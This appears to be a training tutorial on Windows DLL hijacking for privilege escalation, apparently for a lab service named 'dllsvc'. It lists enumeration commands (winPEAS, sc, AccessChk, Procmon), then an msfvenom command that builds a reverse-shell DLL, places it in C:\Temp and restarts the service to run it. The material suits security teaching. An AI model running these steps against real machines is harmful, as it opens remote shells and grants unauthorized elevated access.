

### **Introduction**

DLL hijacking is a cyberattack that exploits the way Windows applications search for and load Dynamic Link Libraries (DLLs).  
By manipulating how DLLs are resolved, an attacker can gain elevated privileges or execute arbitrary code.

### **How DLL hijacking works**

1.  Services in Windows load DLLs with the same privileges as the service. If an attacker controls the DLL, their code executes with those privileges.  
2.  **Absolute path vulnerability:** When a service loads a DLL from a writable path, an attacker can replace it with a malicious one to escalate privileges.  
3.  If an application fails to find a required DLL, an attacker can place a malicious DLL in a directory that Windows searches, hijacking execution.  
4.  Windows searches for DLLs in a specific order. Attackers exploit this by placing a malicious DLL in a location searched before the legitimate one.

### **Steps to identify and exploit insecure service executables**

1.  Use **winPEAS** to list non-Microsoft services:  
    `.\winPEASx64.exe quiet servicesinfo`
    
    
    
2.  Verify writable directories in the service configuration:  
    `sc qc dllsvc`
    
3.  Check service access permissions with **AccessChk**:  
    `.\accesschk.exe /accepteula -uvqc user dllsvc`
    
4.  Use **Procmon** to monitor DLL activity for the service:  
    `Procmon64.exe`
    
5.  Apply filters to exclude registry and network activity, focusing on DLL-related errors.  
    
6.  Look for failed DLL load attempts, especially in writable directories such as:  
    `C:\Temp`
    
7.  Generate a malicious DLL payload with **msfvenom**:  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT_NUMBER] -f dll -o hijackme.dll`
    
8.  Place the malicious DLL in the target directory:  
    `move hijackme.dll C:\Temp`
    
9.  Restart the vulnerable service to trigger DLL execution:  
    ```
    net stop dllsvc
    net start dllsvc
    ```